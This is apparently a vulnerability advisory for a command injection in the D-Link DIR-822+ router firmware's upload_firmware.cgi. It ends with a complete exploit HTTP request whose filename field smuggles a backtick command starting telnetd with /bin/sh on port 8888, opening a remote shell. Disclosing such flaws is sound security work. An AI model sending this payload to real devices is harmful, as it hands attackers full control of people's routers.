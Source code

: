 ## DIR-822+ Command Injection

### Overview

* Manufacturer's address：http://www.dlink.com.cn/
* Firmware download address ：http://www.dlink.com.cn/techsupport/ProductInfo.aspx?m=DIR-822%2B

### Affected version

D-Link DIR-822+ V1.0.5 was found to contain a command injection in `ftext` function of`upload_firmware.cgi`, which allows remote attackers to execute arbitrary commands via shell

![image-20240421163220274](./img/4.png)

### Vulnerability details

Vulnerability occurs in /cgi-bin/upload_firmware.cgi. Attackers can control `v3` by setting the `UPLOAD_FILENAME`.

![image-20240421163827190](./img/1.png)

Regardless of whether `v3` is valid or not, the following code will be executed. The value of `v3` is passed to `v9` and call system.

![image-20240421163827190](./img/2.png)

Based on the cause of the vulnerability, attackers can arbitrarily call system by setting the `UPLOAD_FILENAME`. 

### EXP

```
POST /cgi-bin/upload_firmware.cgi HTTP/1.1
Host: 192.168.0.1
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:80.0) Gecko/20100101 Firefox/80.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------28278418346116865854153533320
Content-Length: 213
Origin: http://192.168.0.1
Connection: close
Referer: http://192.168.0.1/FirmwareUpdate.html
Upgrade-Insecure-Requests: 1
-----------------------------28278418346116865854153533320
Content-Disposition: form-data; name="uploadConfigFile"; filename="`telnetd -l /bin/sh -p 8888 -b 0.0.0.0`"
Content-Type: application/octet-stream
aaaaaa
```

![image-20240421163827190](./img/3.png)